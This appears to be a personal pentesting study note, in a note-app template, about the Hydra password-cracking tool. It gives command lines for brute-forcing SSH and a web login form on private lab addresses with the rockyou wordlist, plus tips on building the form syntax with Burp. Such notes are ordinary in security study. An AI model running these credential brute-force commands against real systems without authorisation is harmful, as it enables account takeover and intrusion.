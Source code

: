 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Hydra]]  
___

## Description:  
**SSH
`hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://192.168.130.128:22

**Webpages
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.188.69 -s 8080 http-post-form "/login?local=1:username=admin&password=^PASS^&remember=on&_csrf=bjvKpG51-2dlYXrIE3-8dg73wyX0grPrxDzA&noscript=false:error"

hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>

/usr/share/wordlist/seclist has usernames

Capture request in burp to help build out the command.
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (02:51 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
